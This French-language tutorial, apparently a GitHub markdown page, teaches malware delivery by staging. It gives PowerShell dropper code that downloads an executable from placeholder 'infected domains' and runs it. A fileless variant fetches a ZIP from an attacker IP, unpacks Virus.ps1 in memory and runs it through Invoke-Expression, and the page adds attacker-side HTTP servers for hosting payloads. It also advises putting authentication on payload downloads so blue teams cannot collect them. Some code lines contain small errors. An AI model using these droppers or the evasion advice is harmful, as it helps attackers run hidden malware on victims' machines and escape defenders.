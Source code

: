 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

# __Dropper___

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Notez qu'il est conseillé de mettre une authentification web au téléchargement dans le but d'éviter une collecte par des blueTeamers qui aurai vu passer le flux sans avoir accès au code du dropper.

### Exemple

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000

## __Telechargement__

Windows 10 et + :

```powershell
Invoke-WebRequest -Uri 'http://<MACHINE_IP>:8000/Virus.zip' -outfile "virus.zip";
```

Windows 7 et - :

```powershell
# Creation d'un nouveau client web
$webClient = [System.Net.WebClient];

# Telechargement des donnes dans une variable
$zip = $webClient.DownloadData('http://<MachineIP>:8000/Virus.zip');
```


## __Extraction__

Une fois l'étape précédente effectué, le ZIP se trouve en mémoire dans la variable $zip. On doit donc les extraire en restant en mémoire.

```powershell
# Chargement de la bibliothèque System.IO.Compression
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;

# Ouverture du fichier 'Virus.ps1' dans l'objet zip en mémoire
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');

# Décompression du fichier
$b = [byte[]]::new($entry.Length);
$entry.Open().read($b, 0, $b.Length);

# Conversion en texte UTF8
$code = [System.Text.Encoding]::UTF8.GetString($b);
```


## __Execution__

Une fois le payload stocké en mémoire il ne reste plus qu'à l'éxécuter.

```powershell
$code | Invoke-Expression
```


## __Exemple_Memory_Dropper___

En combinant tout cela on peut faire un dropper fonctionnant exclusivement dans la mémoire :

```powershell
$webClient = [System.Net.WebClient];
$zip = $webClient.DownloadData('http://<MACHINE_IP>:8000/Virus.zip');
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');
$b = [byte[]]::new($entry.Length);
$entry.open().Read($b, 0, $b.Length);
$code = [System.Text.Encoding]::UTF8.GetString($b);
$code | iex;
```


# __Downloading_Server___

Pour télécharger notre payload depuis la cible, on doit mettre en place un serveur HTTP.

## Python

On peut utiliser python qui nous crée un server web très facilement.

```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Powershell

Si l'on veut rester en powershell on peut utiliser ce code :

```powershell
Function New-SimpleHTTPListener {
	# Port en écoute
	Param(
		[Parameter[]] [Int] $Port = 8000
	)

	# Par défaut en écoute sur localhost
	Begin{
		$listener = New-Object System.Net.HttpListener;
		$prefix = "http://localhost:$Port";
		$listener.Prefixes.Add($prefix);	
	}

	Process {
		try{
			# Demarrer le serveur
			$listener.Start();
			$pwd = Get-Location;

			# Attendre les connexions
			while($listener.IsListening){
				$context = $listener.GetContext();

				# terminer le serveur si l'url demandé est '/quit'
				if($context.Request.HttpMethod -eq 'GET' -and $context.Request.RawUrl -eq '/quit'){
					$listener.Close();
					break;
				}

				# Préparer la réponse
				$HTTPresponse = $context.Response;
				$HTTPresponse.StatusCode = "200";
				$HTTPresponse.Headers.Add("Content-Type", "text/text");

				# Lire le fichier demandé par l'URL
				$requestUrl = $context.Request.Url.OriginalString;
				$data = [System.Text.UTF8Encoding]::UTF8.GetBytes([System.IO.File]::ReadAllText(Join-Path "$pwd" ($RequestUrl.split('/')[-1])));

				# Renvoyer le contenu du fichier en réponse
				$HTTPresponse.ContentLength64 = $data.Length;
				$output = HTTPresponse.OutputStream;
				$output.Write($data, 0, $data.Length);

				# Fermer la connexion
				$output.Close();
			}
		}catch{
			Write()
		}
	}
}
```